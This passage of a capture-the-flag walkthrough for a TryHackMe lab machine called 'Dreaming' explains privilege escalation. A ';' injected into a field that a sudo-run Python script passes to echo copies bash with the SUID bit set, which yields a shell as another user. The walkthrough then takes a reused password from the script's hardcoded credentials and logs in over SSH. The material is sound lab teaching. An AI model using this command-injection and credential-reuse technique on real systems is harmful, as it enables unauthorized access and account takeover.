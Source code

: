 ```bash
5 rows in set (0.00 sec)
```

We first added a `;` that will end the execution of the `echo` command and followed by the `copy` command that will copy the bash exectable to Death's home directroy and `chmod` that will add the SUID bit to the copied `bash` executable. When we run the `/home/death/getDreams.py` script using our sudo right this commands will be executed and we will see the bash executable with Death's SUID bit set in the `/home/death` directory.
```bash
lucien@dreaming:~$ sudo -u death  /usr/bin/python3 /home/death/getDreams.py     
<SNIP>

lucien@dreaming:~$ ls -l /home/death/ 
total 1164
-rwsr-sr-x 1 death death 1183448 Oct 26 09:36 bash
-rw-rw---- 1 death death      21 Jul 28  2023 death_flag.txt
-rwxrwx--x 1 death death    1539 Aug 25  2023 getDreams.py
```

We can use this bash executable to obtain a shell as the Death user and use it to read the second flag.
```bash
lucien@dreaming:~$ /home/death/bash -p
bash-5.0$ whoami
death
bash-5.0$ ls
lucien_flag.txt
bash-5.0$ ls -l /home/death/
total 1164
-rwsr-sr-x 1 death death 1183448 Oct 26 09:36 bash
-rw-rw---- 1 death death      21 Jul 28  2023 death_flag.txt
-rwxrwx--x 1 death death    1539 Aug 25  2023 getDreams.py
```

Remember that the `/home/death/getDreams.py` connects to the database server as death. We can read this script to see Death's password and try to log in as Death using SSH.
```bash
bash-5.0$ cat /home/death/getDreams.py
import mysql.connector
import subprocess                                                                            
# MySQL credentials
DB_USER = "death"
DB_PASS = "<REDACTED>"
DB_NAME = "library"
def getDreams():                                                                              
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",                  
            user=DB_USER,                      
            password=DB_PASS,]
            database=DB_NAME    
```
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Dreaming]
└─$ ssh death@10.10.162.34  
<SNIP>
Last login: Fri Nov 17 21:44:20 2023
death@dreaming:~$ 
```
We see that the Death user used the same password for the database server and for SSH authentication.
